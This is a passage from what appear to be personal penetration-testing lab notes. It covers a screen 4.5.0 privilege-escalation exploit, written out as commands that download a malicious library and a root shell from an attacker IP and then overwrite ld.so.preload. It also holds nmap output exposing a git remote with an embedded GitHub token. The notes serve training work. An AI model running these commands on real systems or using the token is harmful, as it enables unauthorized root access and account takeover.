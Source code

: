 - Find local.txt on aero's home folder
	![[Pasted image 20250216204638.png]]
## Enumeration
- Transfer and run linpeas.sh
	- ???
- Check for SUID files
	```shell
	$ find / -perm -u=s -type f 2>/dev/null
	```
	- screen-4.5.0
### Privilege Escalation- Screen 4.5.0
- Found local privilege escalation exploit on SearchSploit
	- https://www.exploit-db.com/exploits/41154
- Run all the given commands within, copy the files needed from https://github.com/jebidiah-anthony/htb_flujab
```shell
$ wget http://192.168.45.156/libhax.so
$ wget http://192.168.45.156/rootshell

$ chmod +x /tmp/rootshell
$ cd /etc/
$ umask 000
$ screen-4.5.0 -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so"
$ screen-4.5.0 -ls
$ /tmp/rootshell
```
## Flag
- Flag found in root folder
	![[Pasted image 20250216212029.png]]
# CRYSTAL - 192.168.178.144
## Initial Scan
```c
# Nmap 7.95 scan initiated Sun Feb 16 18:28:36 2025 as: /usr/lib/nmap/nmap --privileged -p- -A -T4 -oN CRYSTAL.txt 192.168.178.144
Nmap scan report for 192.168.178.144
Host is up (0.0050s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 fb:ea:e1:18:2f:1d:7b:5e:75:96:5a:98:df:3d:17:e4 (ECDSA)
|_  256 66:f4:54:42:1f:25:16:d7:f3:eb:f7:44:9f:5a:1a:0b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-git: 
|   192.168.178.144:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: Security Update 
|     Remotes:
|_      https://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@github.com/PWK-Challenge-Lab/dev.git
|_http-title: Home
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-generator: Nicepage 4.21.12, nicepage.com
```
## Enumeration